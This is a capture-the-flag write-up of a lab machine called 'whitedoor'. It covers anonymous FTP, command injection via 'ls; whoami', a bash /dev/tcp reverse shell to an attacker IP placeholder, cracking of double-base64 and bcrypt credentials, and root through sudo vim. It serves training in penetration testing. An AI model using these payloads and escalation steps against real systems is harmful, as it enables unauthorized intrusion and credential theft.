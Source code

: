 # whitedoor.hvm

MACHINE IP: 192.168.0.107

Nmap scan:
        - Open ports: 80, 21, 22
        - Nmap detects that anonymous ftp login allowed
        - Contains a README.txt file. Let's check it out.

Website:
The port executes only the ls command. But if we input something like `ls; whoami` we get the output for both commands.

Let's use this to obtain a reverse shell.

I'm going to use this particular payload:
```bash
/bin/bash -c 'bash -i >& /dev/tcp/[Attacker IP]/4444 0>&1
```

This spawns us a reverse shell as www-data. Time to try and upgrade.

In the /home/whiteshell/Desktop/.my_secret_password.txt, we can find a username and password (probably encrypted)
`whiteshell:VkdneGMwbHpWR2d6VURSelUzZFBja1JpYkdGak5Rbz0K`

Just by some form of random experimentation, or actually, putting this password through this website: https://www.tunnelsup.com/hash-analyzer/ 
we find that this password is encoded using base64 2 times. So decrpyting this twice we get
`whiteshell:Th1sIsTh3P4sSwOrDblac5`

Now running linpeas on this login, we find a file in the user Gonzalo called my secret hash (very inconspicuous :|).
`$2y$10$CqtC7h0oOG5sir4oUFxkGuKzS561UFos6F7hL31Waj/Y48ZlAbQF6`

Let's decrypt this with john.
```bash
john --format=bcrypt crack.txt
```

Here, crack.txt is the file where the password is stored. I found that it is a bcrypt hash by running it thru the hash analyzer of dcode.fr (an online tool).

On decrypting we get the password as:
`qwertyuiop`

So the username:password pair will be:
`Gonzalo:qwertyuiop`

This will get us the user flag.

Time to see what we can do to PE. Time to bring in our old friend, `linpeas.sh`

Now, we cant download to our base user folder. But I had already downloaded it to */tmp/privesc* so I ran the file from there.

It says that vim can be run as sudo. This means that any command run on vim will be run as root. Time to use this to get root.

So, I found that running the command
```bash
sudo /usr/bin/vim
```

And entering the password of Gonzalo will run vim as root. This allowed us to run root commands. So I type the command in normal mode
```vim
:!/bin/sh
```

To get a root shell. 

Voila! We have completely owned the system.

**NOTE: For binary privesc, research GTFObins for linux. It provides useful PE vectors.**

